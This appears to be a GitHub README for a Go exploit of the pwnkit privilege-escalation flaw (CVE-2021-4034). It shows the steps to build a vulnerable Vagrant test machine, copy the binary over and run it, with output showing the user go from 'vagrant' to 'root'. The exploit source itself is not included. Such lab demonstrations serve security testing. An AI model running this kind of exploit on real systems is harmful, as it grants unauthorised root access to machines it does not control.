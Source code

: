 ### Pwnkit-go

This is a working exploit for the pwnkit vulnerability, CVE-2021-4034, written in Go

Give it a try:

```sh
# create a vulnerable vagrant machine
$ make vm
...

# build the binary and scp it to the vagrant box
$ make scp

# ssh onto the vagrant box
$ make ssh

# The default user is "vagrant"
vagrant@ubuntu-focal:~$ whoami
vagrant

# execute exploit
vagrant@ubuntu-focal:/tmp$ cd /tmp && ./pwnkit-go
$ whoami
root
```
